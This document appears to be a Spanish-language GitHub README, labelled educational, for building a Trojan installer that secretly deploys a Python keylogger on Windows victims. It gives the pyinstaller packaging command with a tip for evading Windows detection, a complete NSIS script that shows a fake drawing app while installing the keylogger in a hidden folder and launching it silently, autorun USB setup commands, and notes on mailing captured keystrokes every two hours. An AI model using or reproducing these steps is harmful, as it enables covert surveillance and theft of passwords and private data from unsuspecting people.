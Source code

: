 # Instalador de un keylogger en una víctima Windows

Este proyecto está desarrollado solo para fines educativos.

## Idea de ataque en windows con keylogger:

Crear un instalador que instala una "app" ficticia de dibujo pero a la vez el instalador instala un keylogger(`keylogger.py`) en una carpeta oculta que se lanza automáticamente al finalizar el instalador.

El keylogger guarda todos los registros de teclado en un fichero y cada 2 horas envía por e-mail todo lo registrado. Se utiliza la librería [Sendgrid](https://sendgrid.com/solutions/email-api/) (Requiere una cuenta)

Para salir del keylogger la víctima puede teclear una combinación de teclas `<ctrl>+<alt>+q`
## EXE

Se utiliza [pyinstaller](https://www.pyinstaller.org/) que permite embeber un proyecto pyhton en un .exe

```bash
pyinstaller --onedir --name "draw" -w keylogger.py
```

--name

nombre del exe `ej: draw.exe`

--onedir

el ejecutable se puede crear de dos modos, en modo `onefile` que solo crea un exe o en modo carpeta `onedir` con el .exe y las librerías. Lo más limpio sería empaquetar el script en un solo fichero .exe. Pero en las pruebas realizadas Windows detecta más facilemente que es un virus cuando se utiliza `onefile`. En modo carpeta windows es más permisible. *De esta manera nos saltamos que windows bloque el keylogger*

El pyinstaller crea el directorio `dist\draw` con el exe `dist\draw\draw.exe` y las librerias
## Instalador del keylogger (ingeniería social)

Utilizando el software [nsis](https://nsis.sourceforge.io/Main_Page) se enmascara la instalación del keylogger como si fuera un software de dibujo, el usuario creerá que es un app de dibujo (es un enlace a app online) pero también instalará el keylogger en un directorio oculto (`.backup`)

Una vez finaliza la instalación se ejecuta el keylogger de forma transparente a la victima.

Pasos para generar el instalador:

- Copiar y renombrar `draw.url.dist_sample` `installer.nsi.dist_sample` y `LEEME.txt.dist_sample` en la carpeta `dist`.
- Renombrar la carpeta `dist/draw` por `dist/.backup`

```
copy draw.url.dist_sample dist\draw.url
copy installer.nsi.dist_sample dist\installer.nsi
copy LEEME.txt.dist_sample dist\LEEME.txt
move dist\draw dist\.backup

```

- Ejecutar el script `dist\installer.nsi` con NSIS para generar el instalador `draw-installer.exe`

Script NSIS

```
Outfile "draw-installer.exe"

InstallDir C:\Draw

Section

SetOutPath $INSTDIR

File LEEME.txt
File draw.url

SetOutPath $INSTDIR\.backup

File .backup\base_library.zip
File .backup\draw.exe
File .backup\libcrypto-1_1.dll
File .backup\libffi-7.dll
File .backup\libssl-1_1.dll
File .backup\pyexpat.pyd
File .backup\python310.dll
File .backup\select.pyd
File .backup\unicodedata.pyd
File .backup\VCRUNTIME140.dll
File .backup\_asyncio.pyd
File .backup\_bz2.pyd
File .backup\_ctypes.pyd
File .backup\_decimal.pyd
File .backup\_hashlib.pyd
File .backup\_lzma.pyd
File .backup\_multiprocessing.pyd
File .backup\_overlapped.pyd
File .backup\_queue.pyd
File .backup\_socket.pyd
File .backup\_ssl.pyd

SectionEnd

Section

SetOutPath $INSTDIR

SetFileAttributes "c:\Draw\.backup" HIDDEN

SetOutPath "c:\Draw\.backup"

Exec '"draw.exe"'

ExecShell "open" "C:\Draw"

SectionEnd

```
# Crear USB con autplay

```
copy autorun.inf.sample d:\autorun.inf
copy draw.lnk.sample d:\draw.lnk
copy LEEME.txt.dist_sample d:\LEEME.txt
md d:\.backup
attrib +h d:\.backup /s /d
copy dist\.backup d:\.backup
```
## Posibles mejoras

* Modificar el registro de windows para que se lance al inicio de Windows
* Salir si ya hay un keylogger ejecutandose.



